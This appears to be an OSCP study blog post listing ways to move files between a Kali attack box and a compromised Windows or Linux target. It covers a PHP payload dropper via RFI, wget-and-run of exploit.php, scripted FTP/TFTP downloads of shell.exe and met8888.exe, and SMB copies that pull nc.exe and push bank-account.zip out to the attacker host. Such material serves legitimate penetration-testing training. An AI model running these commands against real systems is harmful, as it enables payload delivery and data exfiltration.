 ```yaml
---
title:  "Transfer files from Kali to the target machine"
date:   2018-03-26 05:22:33 +0800
categories: OSCP
classes:
  - landing
header:
  teaser: /assets/img/oscp-teaser.jpg
---
```


Tranfer files to the target machine is particularly useful when we have already had a reverse shell on Windows. Windows does not have convenient commands to download files such as wget in Linux.

## If PHP RFI is available
We first encode the file using this online tool https://www.base64encode.org/, and then use PHP base64_decode to decode and write the content into the wanted location:
```php
<?php
$encoded = 'PUT_BASE64_ENCODED_FILE_HERE';
$file = '/tmp/findsock';
$fp = fopen($file, 'wb');
fwrite($fp, base64_decode($encoded));
fclose($fp);
system("chmod 0777 " . $file);
echo system("ls -la /tmp");
?>
```

## To Linux machine
Use wget
```
cd /tmp && wget -O exploit.php 10.11.0.105/exploit.php && php -f exploit.php
```

## To Windows machine
### HTTP Server
```
python -m SimpleHTTPServer 80
```
### FTP Server
To start Python FTP server:
```
apt-get install python-pyftpdlib  
python -m pyftpdlib -p 21 -w
```
To put/get files:
```
echo open 10.11.0.105>ftp.txt
echo anonymous>>ftp.txt
echo password>>ftp.txt
echo binary>>ftp.txt
echo get shell.exe>>ftp.txt 
echo bye>>ftp.txt
ftp -s:ftp.txt
```
### TFTP Server
To start Kali TFTP server:
```
service atftpd start
```
To get files (put does not work):
```
tftp -i 10.11.1.5 GET met8888.exe
tftp -i 10.11.0.105 PUT C:\bank-account.zip // Not working
```
If tftp is not available:
```
pkgmgr /iu:"TFTP"  
```
### SMB Server
To start SMB server:
```
python /opt/impacket/examples/smbserver.py ROPNOP /root/
```
To put/get files:
```
copy \\10.11.0.105\ROPNOP\nc.exe .
copy C:\bank-account.zip \\10.11.0.105\ROPNOP\
```
**References**
- [https://blog.ropnop.com/transferring-files-from-kali-to-windows/](https://blog.ropnop.com/transferring-files-from-kali-to-windows/)
- [http://ostrokonskiy.tk/2017/01/23/windows-privilege-escalation/](https://blog.ropnop.com/transferring-files-from-kali-to-windows/)
